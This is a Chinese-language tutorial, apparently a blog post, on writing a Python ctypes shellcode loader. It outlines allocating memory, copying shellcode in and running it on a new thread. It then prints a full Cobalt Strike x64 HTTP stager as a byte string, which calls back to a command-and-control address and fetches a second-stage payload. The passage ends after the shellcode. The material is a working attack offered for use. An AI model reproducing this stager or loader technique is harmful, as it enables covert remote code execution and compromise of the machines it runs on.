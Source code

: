 

### Ctypes库

Ctypes 是 Python 的外部函数库。提供了与 C 兼容的数据类型，并允许调用 DLL 或共享库中的函数。可使用该模块以纯 Python 形式对这些库进行封装

而本编文章主要调用系统DLL的函数有`VirtualAlloc`、`RtlMoveMemory`、`CreateThread`、`WaitForSingleObject`, 这些函数后文都会讲述



## ShellCode加载器

### 实现思路

要实现所谓的Shellcode加载器, 其实只需以下四个步骤:

- `VirtualAlloc`函数开辟内存空间
- `RtlMoveMemory`函数将Shellcode加载至此内存空间
- `CreateThread`创建线程执行此段内存空间的内容
- `WaitForSingleObject`等待ShellCode执行结束



### 加载代码

```python
import ctypes

#CobaltStrike生成的PythonShellcode代码,注意双引号前有个b
bytesbuf = b"\xfc\x48\x83\xe4\xf0\xe8\xc8\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x75\x72\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x4f\xff\xff\xff\x5d\x6a\x00\x49\xbe\x77\x69\x6e\x69\x6e\x65\x74\x00\x41\x56\x49\x89\xe6\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x48\x31\xc9\x48\x31\xd2\x4d\x31\xc0\x4d\x31\xc9\x41\x50\x41\x50\x41\xba\x3a\x56\x79\xa7\xff\xd5\xeb\x73\x5a\x48\x89\xc1\x41\xb8\x50\x00\x00\x00\x4d\x31\xc9\x41\x51\x41\x51\x6a\x03\x41\x51\x41\xba\x57\x89\x9f\xc6\xff\xd5\xeb\x59\x5b\x48\x89\xc1\x48\x31\xd2\x49\x89\xd8\x4d\x31\xc9\x52\x68\x00\x02\x40\x84\x52\x52\x41\xba\xeb\x55\x2e\x3b\xff\xd5\x48\x89\xc6\x48\x83\xc3\x50\x6a\x0a\x5f\x48\x89\xf1\x48\x89\xda\x49\xc7\xc0\xff\xff\xff\xff\x4d\x31\xc9\x52\x52\x41\xba\x2d\x06\x18\x7b\xff\xd5\x85\xc0\x0f\x85\x9d\x01\x00\x00\x48\xff\xcf\x0f\x84\x8c\x01\x00\x00\xeb\xd3\xe9\xe4\x01\x00\x00\xe8\xa2\xff\xff\xff\x2f\x34\x69\x66\x5a\x00\x8b\xee\xfe\xb2\x85\xf9\x84\x0d\x0b\xb4\x2a\x01\x70\x03\x32\x9a\xb3\x1c\x3a\x7e\xae\xeb\x8c\x0f\xc9\xcf\x42\x59\x2b\x25\x92\xc7\x5e\x25\xc5\x1c\x8f\xb3\xe7\x3c\xec\x81\xec\xce\xf3\xa9\xec\xd9\x4a\x16\x97\x0a\xee\x5c\x84\x48\xae\x0d\x93\x84\x99\x57\xb6\xa3\xbc\x48\x1e\x6b\xe4\xc0\xce\x75\x1a\x00\x55\x73\x65\x72\x2d\x41\x67\x65\x6e\x74\x3a\x20\x4d\x6f\x7a\x69\x6c\x6c\x61\x2f\x34\x2e\x30\x20\x28\x63\x6f\x6d\x70\x61\x74\x69\x62\x6c\x65\x3b\x20\x4d\x53\x49\x45\x20\x38\x2e\x30\x3b\x20\x57\x69\x6e\x64\x6f\x77\x73\x20\x4e\x54\x20\x36\x2e\x30\x3b\x20\x54\x72\x69\x64\x65\x6e\x74\x2f\x34\x2e\x30\x29\x0d\x0a\x00\x2c\x1e\x3c\x4d\x87\x66\x5b\xef\x25\xe3\x97\xde\xcc\xaa\xab\xd8\x9d\x84\x62\x8b\x2e\x04\x9c\x59\x41\x9f\x0a\x20\xe8\xd5\x2e\xe8\x91\x5d\x2c\xca\x75\x13\x8d\x18\xe8\xc9\xf5\x70\x7d\x3c\x57\x94\xb0\x5f\xe0\x7a\xb0\x58\x7f\x9e\xa8\xa2\x40\x5e\x9a\x8f\x9f\xb8\x28\xe3\x43\x8d\x28\x87\x72\xa9\x21\x9d\x47\x3e\x24\x38\xf8\x49\xd5\x5c\x99\xf7\x17\xc2\x6e\x84\x71\x9c\xf0\x56\x90\xce\xe7\x25\x19\x38\xc9\x5b\xaa\x1c\x25\x4c\x8b\x1c\x7c\x2a\x77\x91\x64\xae\x3d\xbe\x41\xce\xbb\xd3\xac\xd7\x5e\x4a\x8a\x83\x4f\xc8\xe9\x34\x98\x1c\x2b\x43\x27\xbb\x44\xd7\x89\x84\xb9\x10\xb6\x6b\x30\xeb\x04\x7d\xe8\x98\xb2\x46\xaa\x86\xda\x71\x87\x80\xe2\x3e\x38\x5a\x93\xbb\x06\xa3\x28\xd8\xcb\x38\xfb\xfd\xa3\x35\xd9\xe6\x5d\x8b\xf8\x27\xd8\x13\xe2\x29\xfa\xe9\x4a\x27\x06\xab\xc1\x16\xe1\xc5\xa2\xad\x57\x96\x21\x93\xbe\xe1\x12\x18\x54\x76\xba\x5f\xd9\x61\x55\xc0\x87\xfe\x21\x52\x36\xba\x55\x51\x17\x2d\x40\x21\x39\x20\x8e\x00\x41\xbe\xf0\xb5\xa2\x56\xff\xd5\x48\x31\xc9\xba\x00\x00\x40\x00\x41\xb8\x00\x10\x00\x00\x41\xb9\x40\x00\x00\x00\x41\xba\x58\xa4\x53\xe5\xff\xd5\x48\x93\x53\x53\x48\x89\xe7\x48\x89\xf1\x48\x89\xda\x41\xb8\x00\x20\x00\x00\x49\x89\xf9\x41\xba\x12\x96\x89\xe2\xff\xd5\x48\x83\xc4\x20\x85\xc0\x74\xb6\x66\x8b\x07\x48\x01\xc3\x85\xc0\x75\xd7\x58\x58\x58\x48\x05\x00\x00\x00\x00\x50\xc3\xe8\x9f\xfd\xff\xff\x31\x39\x32\x2e\x31\x36\x38\x2e\x34\x37\x2e\x31\x33\x34\x00\x12\x34\x56\x78"

#bytearray()函数返回一个新字节数组
```